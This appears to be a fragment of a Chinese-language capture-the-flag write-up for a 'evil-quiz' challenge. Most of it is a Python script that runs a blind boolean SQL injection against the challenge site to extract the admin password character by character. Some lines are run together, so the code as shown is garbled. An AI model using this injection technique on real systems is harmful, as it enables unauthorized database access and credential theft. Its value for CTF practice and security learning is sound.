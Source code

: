 ![](img/fc36b42116069f351f3fe72b96d11a46.png)

现在让我们找到 admin 的密码，修改脚本以枚举密码

```
import requests,time,recharlists= ['0','1','2','3','4','5','6','7','8','9','0','a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z', 'A','B','C','D','E','F','G','H','I','J','K','L','M','N','O','P','Q','R','S','T','U','V','W','X','Y','Z','_','{','}','-','$','!','@','#']URL = "https://hackyholidays.h1ctf.com/evil-quiz/"
password = ""
headers = {'Cookie': 'session=49760dc697484323f6057689d396b3f8'}
data = {'name' : 'test'}r = requests.post(url = URL , data = data, headers = headers)
for i in range(1,18):
   for x in charlists:
      data = {'name': '\' and (SELECT (CASE WHEN EXISTS(SELECT username FROM admin where username = \'admin\' and BINARY substring(password,'+str(i)+',1) = \'' + str(x) + '\')  then 1 else 0 end)) = 1 # '} 
      r = requests.post(url = URL, data = data, headers = headers)out = requests.get(url = URL + "score", headers = headers)
      result = re.search('There is (.*) other player',out.text)
      if int(result.group(1)) > 0:
          password += str(x)
          print("Give me password plaease ::-> " + password)
          break
      else:
          pass
```
